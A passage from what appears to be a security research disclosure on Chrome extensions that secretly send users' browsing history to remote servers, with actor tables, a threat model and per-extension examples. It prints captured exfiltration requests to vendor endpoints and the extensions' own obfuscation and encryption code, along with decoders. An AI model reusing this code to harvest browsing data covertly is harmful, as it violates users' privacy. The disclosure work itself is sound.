| https://chromewebstore.google.com/detail/gdmfedbicnoeiadmbagaofgnldjfgeab | Tokopedia Price Tracker                                                  |       1000 |
| https://chromewebstore.google.com/detail/gjphikebcceegfolnbfncepfmjnhdkam | UniPass                                                                  |       1000 |
| https://chromewebstore.google.com/detail/gnikbpecjfkhcfammfdpbdpnchhmmbif | Shastic                                                                  |       1000 |
| https://chromewebstore.google.com/detail/himipdblnokdafogmdlmajgokiopcbjk | Словарёк                                                                 |       1000 |
| https://chromewebstore.google.com/detail/jbekkbijnljlblpgjjeocbapiojilnkl | LibreOffice Impress online                                               |       1000 |
| https://chromewebstore.google.com/detail/jbhknkdnmmcipjcfjngiojllgbgolmao | Curriculum Genie                                                         |       1000 |
| https://chromewebstore.google.com/detail/jndboabnjeeeepiipnmjnpcbgjpffikm | Giftmio: Instant Cashback for Online Shopping                            |       1000 |
| https://chromewebstore.google.com/detail/jobfmpppoaapbjmgbejgdfkigomnjihe | Download-TIME v2                                                         |       1000 |
| https://chromewebstore.google.com/detail/kkfobcljflnlpbemjicenfkfnplaggkk | WithEden AI - Emoji Comment App                                          |       1000 |
| https://chromewebstore.google.com/detail/knjfhjecbebplkalmikclbkgkmaggkci | 语鲸 - 插件                                                              |       1000 |
| https://chromewebstore.google.com/detail/lhfchkmkbdmahflnpmlhaeeigenkopko | LibreOffice Draw online                                                  |       1000 |
| https://chromewebstore.google.com/detail/mhpfiackdifhfjphkicjidjlnibkfgek | Ever Accountable For Chrome                                              |       1000 |
| https://chromewebstore.google.com/detail/nmcaaogkocnplfcpbgcihflgedicinke | Video Downloader Professional Premium                                    |       1000 |
| https://chromewebstore.google.com/detail/nnadblfkldnlfoojndefddknlhmibjme | ChatSider:Free ChatGPT Assistant(GPT4)                                   |       1000 |
| https://chromewebstore.google.com/detail/oeomioifmeadkjdifcijpkfifjifhhhn | UpGuard Cyber Security Ratings                                           |       1000 |
| https://chromewebstore.google.com/detail/pmpbkcpplelpcphbapailejddbcebnmb | Antidote                                                                 |       1000 |
| https://chromewebstore.google.com/detail/inpnfpglfklplkhnpggbomjdfjlnldhg | Clockk                                                                   |        855 |
| https://chromewebstore.google.com/detail/khldaehdjgjlmoapbegbkbmfjefoiicc | Youtube Master                                                           |        826 |
| https://chromewebstore.google.com/detail/hapjgfmddaccebjfapmnaanildedikal | Extension Super CE                                                       |        815 |
| https://chromewebstore.google.com/detail/nbmlhoalmfhbhdpngmjkjdioahnglpbj | Kdenlive video editor                                                    |        814 |
| https://chromewebstore.google.com/detail/hgechpjoacihidaifilgojfcfcobobgd | 全品-音视频下载                                                          |        808 |
| https://chromewebstore.google.com/detail/ibcakdkpkhodimbhgmegdobmnemabfaa | Dark Mode Toggle Per Site                                                |        808 |
| https://chromewebstore.google.com/detail/pfdofiecodmjocjnofddngckpaemfhag | Yandex search by image                                                   |        770 |
| https://chromewebstore.google.com/detail/mfacfcabilnmjannppfjbjbecogdkpfc | Matchy                                                                   |        765 |
| https://chromewebstore.google.com/detail/jneebhbmmdfchkjaiomfdeijjobepijh | 1dasou.com - B2B Company & Contact Info                                  |        761 |
| https://chromewebstore.google.com/detail/ppjnhpngeejgohhilojfilpindffcgdc | FlashInfo - Business Insights & Contacts                                 |        759 |
| https://chromewebstore.google.com/detail/oodgchahlgjeakfgemoicnbcbhanemfn | Sanely: cashback, coupons, promo codes, discounts                        |        716 |
| https://chromewebstore.google.com/detail/hllljedppjadpnmlpnfbfmfjdhdcefmp | AliPrice \| Download Amazon Images & Videos                              |        690 |
| https://chromewebstore.google.com/detail/bcphmaoebeamddbmdiajimehnjmageip | DealDazzle:AI Alternatives, Brilliant Savings                            |        654 |
| https://chromewebstore.google.com/detail/kjockjfldkeagjfoaadjlahmakglagka | Email Finder - CUFinder                                                  |        642 |
| https://chromewebstore.google.com/detail/bphajaomlpngendonomppmgoilbohiof | G-Search - B2B Company & Contact Info                                    |        612 |
| https://chromewebstore.google.com/detail/mhiopobccageclebpocgpppnfgoioico | Flowsi CRM para Instagram                                                |        607 |
| https://chromewebstore.google.com/detail/ppilnepfjlpocjddldmkminleemekhfh | BunnyTix - POP Booker (2.6.1)                                            |        575 |
| https://chromewebstore.google.com/detail/fjojjcobgnidkgdjddcjkhckhppeghgg | telbee voice messaging                                                   |        565 |
| https://chromewebstore.google.com/detail/hhchahcbcjbpklbdpdapchiefjmnpcik | Kawasaki Ninja H2 Wallpapers                                             |        560 |
| https://chromewebstore.google.com/detail/mallfdijfpnfhfcfancbnecanjnapiop | Mamma                                                                    |        546 |
| https://chromewebstore.google.com/detail/pddpiopnmcfhgdegdbjbiidcldcclepd | Kallo: Never miss a better price                                         |        538 |
| https://chromewebstore.google.com/detail/eolegobhiehgdegahdefnebohcddgkhb | Ferrari F8 Live Wallpaper                                                |        530 |
| https://chromewebstore.google.com/detail/bdmbfahncgochinclblmnaofgmihcmkb | Naruto and Pikachu Live Wallpaper 4K New Tab                             |        518 |
| https://chromewebstore.google.com/detail/cabfjddpaheijnpipjfijigikbnoengk | Cristiano Ronaldo Legendary Goal Celebration Live Wallpaper              |        500 |
| https://chromewebstore.google.com/detail/cmdjbcgkegplekmggddogfmabibheakn | Undetectable YouTube AdBlocker Plus                                      |        462 |
| https://chromewebstore.google.com/detail/kcijpmmfajideceadmcihckmodaiehpm | Collections                                                              |        453 |
| https://chromewebstore.google.com/detail/ddapglnlcfbgonhbgiolihpdbcejeedb | The Vendry Copilot – Venue & Vendor Tracking                             |        443 |
| https://chromewebstore.google.com/detail/pbkadhbnkinljhoilhicdhnehacpfebc | Origano - Surf and Earn                                                  |        433 |
| https://chromewebstore.google.com/detail/dpmojcbbjcoibehhihmcbeininnbpbid | Shotcut online video editor                                              |        414 |
| https://chromewebstore.google.com/detail/ddpgbedkkfhopdodlekfjglofodoegog | 藏趣云 - 书签同步阅读助手                                                |        410 |
| https://chromewebstore.google.com/detail/nflnkbakbmolpccjpicmljnaclehelbi | Ford Mustang GT Live Wallpaper                                           |        406 |
| https://chromewebstore.google.com/detail/meigbgdegmccdgmohajdmhlkgipanken | histre                                                                   |        404 |
| https://chromewebstore.google.com/detail/pdmfmekkdddepehcblkiffennabldbpg | Şikayetvar                                                               |        398 |
| https://chromewebstore.google.com/detail/aejegnamgmjlmcokhchkifnfhmhimhoe | Hello Kitty Angel Live Wallpaper                                         |        377 |
| https://chromewebstore.google.com/detail/obhcifaofgjiacflmajghcbbgjjhjafo | Intellens - Search Products by Image on AliExpress, Amazon               |        370 |
| https://chromewebstore.google.com/detail/nngjdplpkehilhcinpccdbkjaknkkifl | Newsit: Hacker News and Reddit Links                                     |        367 |
| https://chromewebstore.google.com/detail/kjndilccgkemibeimjdefmjkhfddobfk | Sherloq - Save, Share & Simplify your queries                            |        360 |
| https://chromewebstore.google.com/detail/dhelhbdmdnhnkincggojfipaedcbleok | Link Publishers - Website Finder                                         |        357 |
| https://chromewebstore.google.com/detail/choghdillenemhjgflolcifdmafffooj | LingoWay - 浏览网页记单词 \| AI语法分析 \|专业单词本                     |        356 |
| https://chromewebstore.google.com/detail/jfglacfdockpdpbfodkipgcjplgnojel | Entropy Extension - Auto-Blur Your Screen                                |        346 |
| https://chromewebstore.google.com/detail/gcccfoehonbolcpaefopkboppjiaamkc | Parental Search - Keep your kids safe                                    |        337 |
| https://chromewebstore.google.com/detail/ilkeadgdlbmabcdkgmiogcamcogbjoii | Volume Booster With Shortcuts                                            |        309 |
| https://chromewebstore.google.com/detail/pncjaifcohammdehbfialcmlmiidjmob | Bot Ticket                                                               |        308 |
| https://chromewebstore.google.com/detail/fbipkhjooeibpeceigmiecdicjohfmjb | zave.it - Cashback & Rabatte                                             |        289 |
| https://chromewebstore.google.com/detail/jgkkmcmcgjdmdjodhojkcgcoidaajphc | Studentenkorting NL - Ontvang kortingscodes                              |        281 |
| https://chromewebstore.google.com/detail/oclobnfedcdncflccolnlpebjphomjjd | Valentine’s Day: A Romantic Glow Live Wallpaper                          |        280 |
| https://chromewebstore.google.com/detail/ecibndlcipgnmmlpkmdanljbghaockpd | NCT New Tab Extension Wallpapers 2024                                    |        274 |
| https://chromewebstore.google.com/detail/cifonlmfhnimmghojdepepjdgbbminel | Kotone Shiomi Persona 3 Live Wallpaper                                   |        251 |
| https://chromewebstore.google.com/detail/eegffimmjajfkmnfapnpiandnbjdjkif | EssayGet: AI Writer, Humanizer, Rewrite Tool                             |        245 |
| https://chromewebstore.google.com/detail/haplmebpjakpcbiokgfpdkemhlndcpek | 包阅网页阅读助手                                                         |        241 |
| https://chromewebstore.google.com/detail/mdfgkcdjgpgoeclhefnjgmollcckpedk | SHADE: Stylishly Sustainable                                             |        238 |
| https://chromewebstore.google.com/detail/jlaieagppfmkikkkfbgagdpkmidkmmhd | Sidenote                                                                 |        223 |
| https://chromewebstore.google.com/detail/bdhomkmlcfplpamlpnimlmmgmnbmhamo | RewardsBunny                                                             |        216 |
| https://chromewebstore.google.com/detail/jhanhfphenjhghflpeldoiklkikkjbpb | Multigual Interpreter Extension                                          |        209 |
| https://chromewebstore.google.com/detail/bbdpihagclfjiodkbebbheamdhifhcgl | YapThread - Record, Bookmark, AI Chat                                    |        204 |
| https://chromewebstore.google.com/detail/dmniogfnhjfaembommeeamffneaobgcd | 篆刻-文字识别                                                            |        181 |
| https://chromewebstore.google.com/detail/iljchidcebfmojndjdgophngchonnjnp | Alibaba search by image Beta                                             |        180 |
| https://chromewebstore.google.com/detail/ccgdboldgdlngcgfdolahmiilojmfndl | PI Rank                                                                  |        179 |
| https://chromewebstore.google.com/detail/ljfifjfjfeiieghmpidimlkblnjdomjh | Image Downloader Professional Premium                                    |        170 |
| https://chromewebstore.google.com/detail/fepkmkdameafkbpknifgfhfmoogdcjck | Whatfix for Google                                                       |        158 |
| https://chromewebstore.google.com/detail/mjmpimbhbeeibeeeknmmdfancbicfonc | Lovalink: Une bonne action sans changer ta navigation                    |        152 |
| https://chromewebstore.google.com/detail/kgjhhnlcfjcjpdmfdhmhabdjbfpicppg | wikibit                                                                  |        151 |
| https://chromewebstore.google.com/detail/pogbhjeckmomgcoebdkhboanolddeaje | Protico \| Web3 Chat & Web3 Lobby                                        |        147 |
| https://chromewebstore.google.com/detail/bfoaocblmcoandjlhldeljpmoccldicg | eKonomi                                                                  |        135 |
| https://chromewebstore.google.com/detail/dnngcfoognibnkkngfcamgaibjjlkfdn | Quick History                                                            |        125 |
| https://chromewebstore.google.com/detail/cgcfmjofgjpfbhpgphafeingeflkbjjl | Forethink - Hyper-personalized AI Agent                                  |        119 |
| https://chromewebstore.google.com/detail/eacddhhclhfopgdecadpdonpfemndaeo | AI Web Reactor                                                           |        117 |
| https://chromewebstore.google.com/detail/galjpoldmaegeoidpdmimmdkmememcnb | ZapIn - Automate Your LinkedIn Engagement                                |        114 |
| https://chromewebstore.google.com/detail/cicnfcokdjfnjepkialpbdlfadkhckph | Alternatives                                                             |        112 |
| https://chromewebstore.google.com/detail/icdofcdkdkfbilfnjonbfdmdeckahkfn | Autocoupon!                                                              |        109 |
| https://chromewebstore.google.com/detail/hogoebkpcnajkkjdidfhojkljppfalip | CrowdWise                                                                |        108 |
| https://chromewebstore.google.com/detail/hiiahmfpljemgmnhlaepofeldnnhphmi | CREATANT Bookmarking Tool                                                |        106 |
| https://chromewebstore.google.com/detail/bhlmfakmgikajjenjhafifmdkkjchcli | Wakweli                                                                  |        105 |
| https://chromewebstore.google.com/detail/djblghckgfcjfmhhhfnjbiakmmmcmigf | OffersLove Coupon Finder                                                 |        105 |
| https://chromewebstore.google.com/detail/jgdiindmamodckpmjgoimddpaeaapjpp | Point - AI Content Central                                               |        104 |
| https://chromewebstore.google.com/detail/afipijkhaioeopfolgnagcicgpdlcink | Pricein \| same product lower price                                      |         96 |
| https://chromewebstore.google.com/detail/ihjgcmcigcghjoolblcdcgpkefcjoaji | 옥션가격 추적기                                                          |         96 |
| https://chromewebstore.google.com/detail/ppbdjkgjcmmgddingckiidlakdmgbalo | AI Agent like Manus for Amazon shopping                                  |         96 |
| https://chromewebstore.google.com/detail/aflgdgiaihhpkimnpjgeokkcpndllejm | BoostVocab                                                               |         88 |
| https://chromewebstore.google.com/detail/oojabgademjndedjpcnagfgiglcpolgd | Numici - annotate, collaborate and synthesize                            |         87 |
| https://chromewebstore.google.com/detail/jlohfbdoibjbmbhahkdpcnhedogcjcbl | wwwhisp                                                                  |         86 |
| https://chromewebstore.google.com/detail/hjepnlaapopkiedfendjaieefldndecd | Greenwich                                                                |         64 |

### Who’s Behind the Leaks?

We performed OSINT on every flagged extension: examined the developer email, privacy policy URL, store description, and certificate information of the exfiltration domains and their website if provided. The result is a map of actors:

| Actor                      | Replicated browser history leakage (DevTools) | Not replicated (DevTools) | Total users (automated scan) |
|----------------------------|------------------------------------|----------------|-------------|
| Unknown                    |                         16,071,214 |      3,213,729 |  20,546,145 |
| (Similarweb)               |                            800,000 |                |     800,000 |
| Alibaba Group              |                            106,000 |         80,000 |     186,000 |
| Aliprice                   |                                    |        217,276 |     418,046 |
| Ant Group                  |                                    |         21,000 |      21,000 |
| AppEsteem                  |                             15,000 |                |      15,000 |
| Banco Pan                  |                                    |        160,000 |     160,000 |
| Banmu                      |                              4,989 |                |        4989 |
| Big Star Labs (Similarweb) |                          3,700,000 |                |   3,700,000 |
| BuddyBot                   |                                    |          1,575 |       1,575 |
| butterfly effect           |                                    |      3,000,000 |   3,000,000 |
| Bytedance                  |                                    |         80,000 |      80,000 |
| Curly Doggo                |                            700,000 |        500,000 |   1,200,000 |
| Deal Saving LLC            |                              5,000 |                |       5,000 |
| FallenMax                  |                                    |                |     700,000 |
| Felo AI                    |                                    |         40,000 |      40,000 |
| Fxeye                      |                              6,151 |                |       6,151 |
| Gameograf                  |                                    |          1,770 |       2,770 |
| Gan Qiu                    |                              1,373 |                |       1,373 |
| goodmoviesinfo             |                             60,135 |            808 |      60,943 |
| Guardio                    |                            700,000 |                |     700,000 |
| Kartikey Tiwari            |                            100,000 |                |     100,000 |
| LessLab                    |                                    |           3,000 |       3,000 |
| Lovedeals                  |                                    |            245 |         245 |
| Moonshot AI                |                                    |        100,000 |     100,000 |
| Neuralnetics               |                                    |         10,654 |      10,654 |
| Offidocs                   |                          1,650,984 |        10,2000 |   1,753,398 |
| Ovkas                      |                                    |          1,157 |       1,675 |
| Pie                        |                                    |                |     300,000 |
| Price Technologies         |                             10,096 |                |      10,096 |
| Semrush                    |                          1,000,000 |                |   1,000,000 |
| sh01bid                    |                                    |        200,000 |     200,000 |
| Similarweb                 |                          2,300,000 |                |   2,300,000 |
| Trillion                   |                                546 |                |         725 |
| Grand Total                |                         27,231,488 |      7,733,214 |  37,428,785 |

We determined by using honeypot that Similarweb extensions Similar Sites is linked to Kontera scraper that is linked to Curly Doggo and Offidocs. Kontera scraper is linked to some extensions that we didn't link to any particular Actor. We also believe Big Star Labs is actually Similarweb due to similarities that these extensions share with Similarweb's extensions.

## Why This Matters

### Scale of Exposure

> 37.4 M of users ~ population of Poland

There are only 38 countries with more citizens than Poland. Even if some of the extensions are not actively selling your data this matter is highly alarming. 

### Threat Model

- Profiling & Targeted Advertising – Aggregated browsing histories are gold for ad‑tech firms.
- Corporate Espionage – Employees using a “productivity” extension could inadvertently leak internal URLs (intranets, SaaS dashboards).
- Credential Harvesting – Some extensions also request cookies; coupling that with history gives attackers a complete session picture.

## Examples

We inlcude a few examples of the leakage.

### Pop up blocker for Chrome™ - Poper Blocker

`extension_id: bkkbcggnhapdmkeljlodobbkopceiche`

This is the request made to the exfiltration endpoint, raw data are obfuscated on purpose.
```bash
curl 'https://api2.poperblocker.com/view/update' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: text/plain' \
  -H 'Origin: chrome-extension://bkkbcggnhapdmkeljlodobbkopceiche' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'capr: www.google.com' \
  -H 'kata: ajax' \
  -H 'x-custom-keywords: %5B%5D' \
  -H 'x-uuid: XXXXXX' \
  --data-raw $'LQFQiQ9EEADTbpTauTauHHH...'
```

However, it wasn't that difficult to decypher. Payload data are obfuscated with ROT47.
```json
{
  "u": "https://www.google.com/search?q=target",
  "kk": "",
  "p": "",
  "rd": "",
  "bin": XXXXXX,
  "t": "generated",
  "q1": "from_add_bar",
  "to": "texted",
  "tid": XXXXXX,
  "ch": 2,
  "us": "XXXXXX",
  "h": "XXXXXX",
  "ver": 6,
  "sver": 1,
  "dver": 1,
  "nid": "7.9.4",
  "fiz": "XXXXXX"
}
```

### Stylish - Custom themes for any website

`extension_id: fjnbnpbmkenffdnngjfgmeleoegfcffe`

This is challenging case, we didn't completely decrypt the payload, however, we have pretty good idea of what is going on.
```bash
curl 'https://userstylesapi.com/top/styles' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-type: text/plain' \
  -H 'Origin: chrome-extension://fjnbnpbmkenffdnngjfgmeleoegfcffe' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'pthl: style' \
  -H 'styl: news.ycombinator.com' \
  -H 'x-session-init: s=a3e3e2a81&v=3.4.10&p=0' \
  --data-raw 'PyDk...'
```

The raw data are not only obfuscated but encrypted. The script generates a random, one-time AES-256 key (symmetric key) inside the browser. It encrypts your data using that AES key. It takes that one-time AES key and encrypts it using a Public RSA Key hardcoded in the script. It bundles the encrypted key and the encrypted data together and sends them to the server. To decrypt the data, we need the AES key. To get the AES key, we need to decrypt the key blockand that is only possible with the RSA Private Key. With altering the code it would be possible to pause service worker and capture this AES generated key. We will leave this as fun exercise to the reader. The leakage for this endpoint is confirmed as the encrypted payload grows with longer browsed URL.

For the record here is the code where the encrypton is done. 
```js
_ProductsContainer._createAnimation8 = {
    init: function(e) {
        const t = _ProductsContainer._createAnimation8,
            n = e.instance,
            a = {
                s: "a3e3e2a81",
                sub: chrome.runtime.getManifest().version,
                pid: n.removal
            };
        t.class = class {
                assertScopeValues(e, t, n) {
                    const a = JSON.stringify(n),
                        s = btoa(a),
                        i = Math.random().toString(36).substring(2, 4).toUpperCase() + s,
                        r = {};
                    return r[e] = i,
                        r[t] = "9",
                        r
                }
                async compilationGenerator() {
                    return self.crypto.subtle.generateKey({
                        name: "AES-GCM",
                        length: 256
                    }, !0, ["encrypt", "decrypt"])
                }
                mergeRuleConfigs(e, t) {
                    const n = btoa(String.fromCharCode.apply(null, new Uint8Array(e))),
                        a = btoa(String.fromCharCode.apply(null, new Uint8Array(t)));
                    return "".concat(n, ",").concat(a)
                }
                async CmpNullValue(e, t, n) {
                    const a = JSON.stringify(n);
                    if (!this.recordsPath) {
                        const e = '{"key_ops":["encrypt"],"ext":true,"kty":"RSA","n":"z7mcaorg4Lg3uiPzud1bwLvRvsWK9bpTTsy_DxIX8WRcDndqNQHTgG0HZUTxggp2cLBnxvjG0UPxhfIPZZRed82vLsFYVvdJOsz9iZoKXHqT67RhbI2XecvWKp_ciaw6wRQAycklmIQJaZp4QA-P2Ye19FtG03VaNJRBUCy2Th6huKozUsRErnW5LBW0X7C_sxxpgAE9ijBhxwawnsGal7dCHGwgxcUe9-rfbCD9e7PEJCL_IE9L-hYzjngr5_vXjUU0udjwXNp3YnyA279CMA5bqucp5eI-kXXjsPJRGYw1znhuIwSP2soqXyRT22inklJ4VtBp3rctC5J6ZLnM8Q","e":"AQAB","alg":"RSA-OAEP-256"}',
                            t = JSON.parse(e);
                        this.recordsPath = await self.crypto.subtle.importKey("jwk", t, {
                            name: "RSA-OAEP",
                            hash: "SHA-256"
                        }, !1, ["encrypt"])
                    }
                    const s = {};
                    if (a.length < 190) {
                        const t = await self.crypto.subtle.encrypt({
                            name: "RSA-OAEP"
                        }, this.recordsPath, (new TextEncoder).encode(a));
                        s[e] = btoa(String.fromCharCode.apply(null, new Uint8Array(t)))
                    } else {
                        const t = await this.compilationGenerator(),
                            n = self.crypto.getRandomValues(new Uint8Array(12)),
                            i = await self.crypto.subtle.encrypt({
                                name: "AES-GCM",
                                iv: n
                            }, t, (new TextEncoder).encode(a)),
                            r = new Uint8Array(n.length + i.byteLength);
                        r.set(n),
                            r.set(new Uint8Array(i), n.length);
                        const o = await self.crypto.subtle.exportKey("jwk", t),
                            c = JSON.stringify(o),
                            l = await self.crypto.subtle.encrypt({
                                name: "RSA-OAEP"
                            }, this.recordsPath, (new TextEncoder).encode(c));
                        s[e] = this.mergeRuleConfigs(l, r)
                    }
                    return s[t] = "hxQaXgzvrg",
                        s
                }
                async checkString(e, t, n, s, i, r) {
                    let o = arguments.length > 6 && void 0 !== arguments[6] ? arguments[6] : {};
                    const c = await fetch(e),
                        l = c.headers.get("Content-Type"),
                        u = await c.arrayBuffer(),
                        d = new File([u], t, {
                            type: l || n
                        }),
                        h = Object.assign({}, a, o);
                    let m = {};
                    m = await this.CmpNullValue(i, r, h),
                        fetch(s, {
                            body: d,
                            method: "POST",
                            headers: m
                        })
                }
                async toInt(e, t, n, s, i, r) {
                    let o = arguments.length > 6 && void 0 !== arguments[6] ? arguments[6] : {};
                    const c = new File([e], t, {
                            type: n || e.type || "application/octet-stream"
                        }),
                        l = Object.assign({}, a, o);
                    let u = {};
                    u = await this.CmpNullValue(i, r, l),
                        fetch(s, {
                            body: c,
                            method: "POST",
                            headers: u
                        })
                }
            },
            t.instance = new t.class
    },
    deps: ["ModulesA"]
},
```

### BlockSite Block Websites and Stay Focused

`extension_id: eiimnmioipafcokbfikbljfdeojpcgbh`

```bash
curl 'https://category.blocksite.co/category' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Authorization: Bearer XXXXXX' \
  -H 'Connection: keep-alive' \
  -b 'XXXXXX' \
  -H 'Origin: chrome-extension://eiimnmioipafcokbfikbljfdeojpcgbh' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'bone: google.com' \
  -H 'content-type: application/json' \
  -H 'mufc: mchj' \
  --data-raw 'EQVwNsQ%3D=EQ...'
```
```js
const LZString = require('lz-string');
var payload = "EQVwNsQ%3D=EQ..."; 
payload.split('&').forEach(pair => {
    let parts = pair.split(/=(.+)/);
    let rawKey = parts[0];
    let rawValue = parts[1];
    let keyBase64 = decodeURIComponent(rawKey);
    let valBase64 = decodeURIComponent(rawValue);
    let key = LZString.decompressFromBase64(keyBase64);
    let val = LZString.decompressFromBase64(valBase64);
    console.log(`${key}:`, val);
});
```
returns the following
```
"ul": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dtarget"
"ink": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprevious"
"pel": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprevious"
"rr": "https%3A%2F%2Fwww.google.com%2F"
"dot": [XXXXXX]
"strm": "form_submit"
"poz": "exthead"
"lng": XXXXXX
"ch": 8
"rm": "XXXXXX"
"cas": "XXXXXX"
"v3": 6
"dis": 21
"cm": 1
"org": "6.9.7"
"info": "XXXXXX"
```

### Similarweb - Website Traffic and SEO Checker

`extension_id: hoklmmgfnpapgjgcpechhaamimifchmp`

To be fair, Similarweb makes it now mandatory to tick boxes where they state that they will collect all browsing data.
```bash
curl 'https://rank.similarweb.com/api/v1/global' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-type: application/x-www-form-urlencoded' \
  -b 'XXXXXX' \
  -H 'Origin: chrome-extension://hoklmmgfnpapgjgcpechhaamimifchmp' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'hiw8: www.google.com' \
  -H 'x-session-init: s=a7a4e8223&v=6.12.16&p=0' \
  --data-raw 'e=q%3Dhttps...'
```
The payload of `e` parameter uses multiple layers of URL encoding, very simple to decode.
```js
var payload = "e=q%3Dhttps...";
var decoded = payload;
var last = "";
while (decoded !== last) {
    last = decoded;
    decoded = decodeURIComponent(decoded);
}
decoded.split('&').forEach(pair => {
    let [key, val] = pair.split(/=(.+)/);
    console.log(`${key}: ${val}`);
});
```
```
q: https://www.google.com/search?q=target
sca_esv: XXXXXX
ei: XXXXXX
ved: XXXXXX
uact: 5
oq: target
gs_lp: XXXXXX
sclient: gws-wiz-serp
link: https://www.google.com/search?q=previous
sca_esv: XXXXXX
ei: XXXXXX
ved: XXXXXX
uact: 5
oq: previous
gs_lp: XXXXXX
sclient: gws-wiz-serp
hreferer: https://www.google.com/
iow: XXXXXX
tt: form_submit
meta: exthead
ht: [{"type":"humanibility","data":{"md":"XXXXXX","td":XXXXXX,"tc":1,"pn":"XXXXXX"}}]
ts: XXXXXX
ch: 0
s: XXXXXX
pid: XXXXXX
tmv: 6
md: 21
v: 1
sub: 6.12.16
app: XXXXXX
```

### WOT: Website Security and Safety Checker

`extension_id: bhmmomiinigofkjcapegjjndpbikblnp`

In 2016 in this german [blog](https://www.kuketz-blog.de/wot-addon-wie-ein-browser-addon-seine-nutzer-ausspaeht/) they reported similar type of leakage as it is now used in Similarweb extensions. That is yet another link that links WOT to Similarweb.

```bash
curl 'https://score.mywot.com/scores' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -b 'XXXXXX' \
  -H 'Origin: chrome-extension://bhmmomiinigofkjcapegjjndpbikblnp' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'iged: XXXXXX' \
  -H 'wid: XXXXXX' \
  -H 'wot_trace_id: XXXXXX' \
  --data-raw 'UGB2AB8...'
```

This is the copy of `encoder.js` file.
```js
const fp = require('lodash/fp');
const isEmpty = require('lodash/isEmpty');
const querystring = require('querystring');

const key = `91FMsA...`;

class Encoder {

  static encryptData(input) {
    let result = '';
    for (let i = 0; i < input.length; i++) {
      const charCode = input.charCodeAt(i) ^ key.charCodeAt(i % key.length);
      result += String.fromCharCode(charCode);
    }
    return result;
  }

  static customEncode(content) {
    if (!content) return '';
    const encodedContent = Buffer.from(JSON.stringify(content)).toString('base64');
    const reversed = encodedContent.split('').reverse().join('');
    const xor = this.encryptData(reversed);
    return Buffer.from(xor).toString('base64');
  }
  
  static encodePairs(pairs) {
    return pairs.map((pair) => {
      const [key, value] = pair;
      return [
        this.customEncode(key),
        value ? this.customEncode(value) : ''
      ];
    });
  }
  
  static encode(payload) {
    if (typeof payload !== 'object' || isEmpty(payload)) {
      throw new Error('Invalid payload');
    }
  
    return fp.flow(
      fp.toPairs,
      this.encodePairs.bind(this),
      fp.fromPairs,
      querystring.stringify,
      this.customEncode.bind(this)
    )(payload);
  }
}

module.exports = Encoder;
```

Reversing this encoding is not difficult, here is the reversed logic
```js
const fp = require('lodash/fp');
const querystring = require('querystring');

const key = `91FMsAD...`;

class Decoder {
    static decryptData(input) {
    let result = '';
    for (let i = 0; i < input.length; i++) {
      const charCode = input.charCodeAt(i) ^ key.charCodeAt(i % key.length);
      result += String.fromCharCode(charCode);
    }
    return result;
  }

  static customDecode(encodedContent) {
    if (!encodedContent) return '';
    const xorString = Buffer.from(encodedContent, 'base64').toString('utf8');
    const reversed = this.decryptData(xorString);
    const originalBase64 = reversed.split('').reverse().join('');
    const jsonString = Buffer.from(originalBase64, 'base64').toString('utf8');
    return JSON.parse(jsonString);
  }

  static decode(payload) {
    try {
      const queryString = this.customDecode(payload);
      const rawObject = querystring.parse(queryString);
      const decodedObject = {};
      Object.keys(rawObject).forEach((encKey) => {
        const encValue = rawObject[encKey];
        const decodedKey = this.customDecode(encKey);
        const decodedValue = encValue ? this.customDecode(encValue) : null;
        decodedObject[decodedKey] = decodedValue;
      });
      return decodedObject;

    } catch (error) {
      console.error("Failed to decode payload:", error);
      return null;
    }
  }
}

const payload = "UGB2AB..."; 

const data = Decoder.decode(payload);
console.log(data);
```
Finally, the decoded data.
```
{
  subtrgt: 'https://www.google.com/search?q=target',
  sublast: 'https://www.google.com/search?q=previous',
  subref: 'https://www.google.com/',
  format: [ XXXXXX ],
  nt: 'form_submit',
  atm: 'exthead',
  subsfwrd: [ XXXXXX ],
  epochtime: XXXXXX,
  ch: 6,
  sg: 'XXXXXX',
  id: 'XXXXXX',
  vmt: 6,
  dm: 21,
  vv: 1,
  ver: '5.9.1',
  delta: 'XXXXXX',
  target: 'google.com'
}
```

### Smarty

`extension_id: edjkecefjhobekadlkdkopkggdefpgfp`

The browser history is done directly using url parameters. Most of the extions use this simplest way of exfitration or by sending the URL within payload of POST request in plaintext.
```bash
curl 'https://api.joinsmarty.com/api/visit?country_code=US&sp_user=0&visited_url=https://www.google.com/search?q=target&ei=XXXXXX&ved=XXXXXX&uact=5&oq=target&gs_lp=XXXXXX&sclient=gws-wiz-serp' \
  -H 'accept: */*' \
